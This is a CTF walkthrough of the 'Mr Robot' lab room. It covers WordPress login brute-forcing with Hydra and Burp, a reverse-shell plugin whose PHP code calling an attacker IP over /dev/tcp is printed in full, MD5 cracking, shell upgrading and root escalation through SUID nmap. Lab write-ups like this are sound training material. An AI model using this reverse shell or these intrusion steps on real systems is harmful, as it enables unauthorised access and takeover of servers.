 Mr Robot CTF Room

This is a CTF room, doesn’t provide any information about the target, just it’s IP.

There are 3 flags to find.

Tools used:
- Kali Linux
- nmap
- wpscan
- burp
- hydra
- hashcat
- searchsploit
- wordpress reverse shell plugin
- python
- linux shell

This flag took me quite some time with a bit of trial and error. I also had to do research during most steps and switch tools around as needed, but I got there in the end. 

1. Recon

Let’s start with a nmap port scan and go from there.

![image](https://user-images.githubusercontent.com/60744763/128162355-5e4980b5-ef3d-4da5-8da6-ba5e0b40f4ce.png)


It looks like there is a login form at /wp-login.php. 

![image](https://user-images.githubusercontent.com/60744763/128162381-8be9ac24-9cac-47c9-8f68-4685cad53d1d.png)

Opening this shows us a wordpress login page.
This might be an interesting place to start.


Next I’ll do a basic scan for wordpress vulnerabilities with wpscan

This has shown us quite a few interesting things we can delve into.

![image](https://user-images.githubusercontent.com/60744763/128162477-dc5e6394-6ba0-48f1-b9a6-c7aa81280fe4.png)



First I see the robot.txt file, lets see what this contains:

![image](https://user-images.githubusercontent.com/60744763/128162489-855c8ffa-20b7-4565-b1fa-53ce88959ca0.png)
 

This might be the location of our first flag..!?
browsing to 10.10.190.95/key-1-of-3.txt has shown us the first flag :D

Let’s see what ‘fsocity.dic’ is…
An interesting looking file, maybe passwords!?

![image](https://user-images.githubusercontent.com/60744763/128162514-61f6b155-5015-43f0-b26a-5c2b4e915b1c.png)
 

Now we can see that the WPScan has told us the wordpress version and that it is insecure.

Lets look up this version on searchspoilt…
![image](https://user-images.githubusercontent.com/60744763/128162542-70b2208f-0321-47df-b5f4-9b57f2d741df.png)
 

Some interesting options here to go through. We could try the username enumeration exploit along with the fsocity.dic file we found as a username / password combination. 

We need a username to use the exploit 41963.txt – unauth password reset, so that has to wait. 
UPDATE: Coming back to this, I went to the reset password page for the username we found in a later step – and it appears the mail service is off, so this exploit is no longer an option. 

Let’s try the first exploit and see if we can get the usernames. 
I’ll copy the php exploit file to my folder, edit it with the target’s IP, run a http/php server on my kali box to launch the exploit and see what happens...

![image](https://user-images.githubusercontent.com/60744763/128162588-be7c2e29-6e1a-4e7c-a3a2-fc0b136a1731.png)

![image](https://user-images.githubusercontent.com/60744763/128162611-23ca7b61-957e-4039-ab32-8cc287b9f6dd.png)
As we can see above, the attack didn’t give us any information. 

Now I think we should try a more brutish method… 
UPDATE: in hindsight, this is a themed CTF, which would have made guessing the username quite easy ;)


I’ll go to the wordpress log in page and try some usernames / password combos.
Admin and user and mrrobot all came back with an error, invalid username.
Maybe we can brute force this to find out a user name? 
I’ll start with Burp.

![image](https://user-images.githubusercontent.com/60744763/128162665-c6f93971-2292-46c5-86f8-88016776e0e1.png)

Here we can see the post to the portal. Lets try to brute force it with the dic file we downloaded earlier… 
I’ll send this to the intruder feature of burp, we’ll select the ‘user_login’ field.

![image](https://user-images.githubusercontent.com/60744763/128162696-eee5cb1e-5a0f-479d-ad38-b08b2adde595.png)


Now load the list we downloaded earlier. 
First, lets see if there are many duplicates and remove them before running the attack.
![image](https://user-images.githubusercontent.com/60744763/128162745-c047ddc5-64df-4376-9240-be54607789fa.png)


That’s much smaller now… which should speed up our attack.

Let’s load it and start a sniper attack on the username field and see what we get.

So using Burp was VERY slow, the community version warns that it is throttled, and it really is! I left it for 1 hr and it only got through about 400 attempts. Nothing interesting showing up at the moment, so I’ll try another tool – Hydra.

Using this guide, I setup a Hydra brute force to attempt to get a username.
https://olinux.net/brute-force-attack-login-form/  
We are exploiting the fact that the log in page tells us if the username is valid or not. Once we have a user name I’ll use the same process to try and crack the password. I am using the fsocity.dic file as my dictionary, but with all the duplicates removed as above.

This attack seems much faster. We have some results after a short wait.

It looks like I’ve found a username ‘Elliot’. (DUH! It’s Mr Robot!)
![image](https://user-images.githubusercontent.com/60744763/128162857-1beb225b-2f15-49f7-b05f-1082a74399c8.png)


I’ll leave this attack running in case any other user accounts are found, but in the mean time I will also start a user/pass attack with our newly found information.

Now back to burp to try the username ‘Elliot’ and see what the error is when I use a wrong password. I’ll just try ‘password’.
![image](https://user-images.githubusercontent.com/60744763/128162890-2c1a059b-7160-4e9b-a6d1-f4446f8c0310.png)



We can see the string ‘The password you entered for the username Elliot is incorrect’. That will be our error flag in the next Hydra attack.

I’ve amended our previous Hydra attack to use the username ‘Elliot’ and try passwords from our dictionary. 
Here we go!
![image](https://user-images.githubusercontent.com/60744763/128162905-6ee70216-5edc-46a6-a3fd-c3c98df1ba3d.png)



Bingo! The password was found: ER28-0652
![image](https://user-images.githubusercontent.com/60744763/128162914-2fb03155-e766-4751-abec-dadafaf9216b.png)



 

Logged in to WordPress as Elliot, now let’s play…
![image](https://user-images.githubusercontent.com/60744763/128162927-55037632-2ce7-4cbd-893f-d5df9953335c.png)


Looks like we have admin access to this portal.

![image](https://user-images.githubusercontent.com/60744763/128162954-c1304081-ed45-4c2d-91f6-1b4657829257.png)

 
Maybe we can upload a reverse shell...

Let’s try the plugins section…

We get this message about a .zip plugin, let’s try…
![image](https://user-images.githubusercontent.com/60744763/128162996-54196370-9b1a-4bcb-8bba-4fc2855eaa2a.png)

 
I found this reverse shell plugin code: https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell 


```<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/1234 0>&1'");
?>
```

simple code, let’s save it to a php file, zip it up and upload it. Note I have updated the port and IP to point to my kali box.

While that is uploading I’ll open a nc listener on my kali box with `nc -lvnp 1234`

Plugin uploaded
![image](https://user-images.githubusercontent.com/60744763/128163087-db0b59e2-eca4-4358-8f75-2d0f6a029187.png)
 

After clicking activate plugin, my nc received a connection! ;)

AAAAANNNND we have shell!
![image](https://user-images.githubusercontent.com/60744763/128163106-71e5bbfe-57f8-42ea-bb51-69f7aa351d80.png)


Looking around on the server we can see the /home/robot folder, and in here we see a password.raw-md5 and our next flag/key!
![image](https://user-images.githubusercontent.com/60744763/128163122-236e75f6-b6e3-4493-aeb8-0b8ea54706a5.png)

 
But the key is not accessible at this point, logged in as the current user ‘daemon’.
![image](https://user-images.githubusercontent.com/60744763/128163191-54b0b4d0-7ec8-4d09-912a-dde1dd460670.png)


Let’s see what is in this password file, looks like an md5 password has for the user ‘robot’
`robot:c3fcd3d76192e4007dfb496cca67e13b`

Crack time!

Using hashcat I tried the dictionary provided by the site, this did not contain the password. 
Then I tried the ‘rockyou’ dictionary provided in kali, and it cracked in in seconds!

![image](https://user-images.githubusercontent.com/60744763/128163238-4b661e07-bd5a-4131-addd-6fb8edbb2658.png)

 
We can see the password is `abcdefghijklmnopqrstuvwxyz`
Thank goodness for copy/paste :D

Now trying to use the su command to login as a different user I get the following:
![image](https://user-images.githubusercontent.com/60744763/128163283-00957491-2ada-4142-b72e-1c6018d88d36.png)



I imagine this is because the shell is running as daemon. So let’s try upgrade the shell. 

I found this article on upgrading the shell.
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/ 

In short I simply run a python script/command. Luckily we have python installed on this machine!

The command is: `python -c 'import pty; pty.spawn("/bin/bash")'`
Then I login as the user robot with `su – robot`, paste in our cracked password AND now I have a shell as the user ‘robot’!

Now I can get our 2nd key (or flag) which we saw earlier, as  we now have permissions to read the file :D

![image](https://user-images.githubusercontent.com/60744763/128163340-f86b5e94-92d8-4e50-8d28-156a721bdf70.png)
 

Now let’s see if we can get root access.

I’ll start by searching for suid based files.
![image](https://user-images.githubusercontent.com/60744763/128163385-84bd84fb-2e28-4456-9dc2-4e5f35ff6b17.png)


Nmap might be interesting, it is owned by root. 
![image](https://user-images.githubusercontent.com/60744763/128163418-1b812c80-aa07-473b-837a-cfeea0a93a9e.png)
On my ubuntu desktop the suid bit for nmap is not set so this could be a way in.


Research time! BRB
After some research, I found older versions of nmap have an ‘interactive’ terminal which allows the user to run shell commands from with-in it. It’s very simple, run `nmap --interactive` 
Then we can run commands with the `!<command>` option.
![image](https://user-images.githubusercontent.com/60744763/128163483-f211c572-eb2d-4704-a8cd-81bf73b6ba62.png)


Since the SUID bit is set, and the file is owned by root, we are have effective access root now.
We should be able to do pretty much anything we like from here.

I can even see the key in the /root folder
![image](https://user-images.githubusercontent.com/60744763/128163523-ad7a93e8-3a79-48ec-bb85-bb22a3133a63.png)
 
And we’ve got the last flag!

Let’s open a root shell for fun :D

I am (g)root!
![image](https://user-images.githubusercontent.com/60744763/128163551-9dca9821-a990-4700-8dcf-2ce92a393d04.png)

